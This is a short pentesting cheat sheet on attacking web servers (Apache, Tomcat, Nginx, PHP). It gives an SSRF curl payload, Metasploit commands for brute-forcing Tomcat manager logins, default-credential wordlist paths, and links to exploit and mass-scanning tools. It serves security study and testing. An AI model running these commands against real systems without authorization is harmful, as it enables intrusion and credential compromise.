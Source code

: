 ```yaml
---
layout: notes
permalink: /notes/tech/server/
title: Pentesting Web Servers
---
```


# Pentesting Web Servers

## Apache
```bash
#SSRF
$ curl "http://localhost/?unix:$(python3 -c 'print("A"*7701, end="")')|http://backend_server1:8085/"> <html>ssrf test</html>
```

## Apache Tomcat
```bash
#Metasploit Tomcat Bruteforce
msf > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(tomcat_mgr_login) > show actions
msf auxiliary(tomcat_mgr_login) > set ACTION < action-name >
msf auxiliary(tomcat_mgr_login) > show options
msf auxiliary(tomcat_mgr_login) > run

#Seclists Wordlsits
/Discovery/Web-Content/tomcat.txt
/Discovery/Web-Content/ApacheTomcat.fuzz.txt
/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
```
Tools:\
[AJPy](https://github.com/hypn0s/AJPy) - AJPy aims to craft AJP requests in order to communicate with AJP connectors.\
[Mass Scanner for CVE-2020-9484](https://github.com/osamahamad/CVE-2020-9484-Mass-Scan) - Scan a list of urls against Apache Tomcat deserialization (CVE-2020-9484) which could lead to RCE, determine possible vulnerable hosts.\
\
Additional references
[hacktricks](https://hacktricks.boitatech.com.br/pentesting/pentesting-web/tomcat)

## Nginx
[nginxpwner tool](https://github.com/stark0de/nginxpwner)\
[CVE-2019-11043](https://github.com/jas502n/CVE-2019-11043)\
[Path Traversal](https://medium.com/appsflyerengineering/nginx-may-be-protecting-your-applications-from-traversal-attacks-without-you-even-knowing-b08f882fd43d)

## PHP
```bash
#Php vulnerabilities
https://infosecwriteups.com/vulnerabilities-in-php-based-applications-fb6224865d43

#Details: Introducing lightyear: a new way to dump PHP files
https://www.ambionics.io/blog/lightyear-file-dump

#Exploit: GitHub - ambionics/lightyear: lightyear is a tool to dump files in tedious (blind) conditions using PHP filters
https://github.com/ambionics/lightyear

#phpMyAdmin
https://www.securitynewspaper.com/2020/11/30/how-to-hack-mysql-databases-pentesting-phpmyadmin/
https://www.netspi.com/blog/technical/network-penetration-testing/linux-hacking-case-studies-part-3-phpmyadmin/
```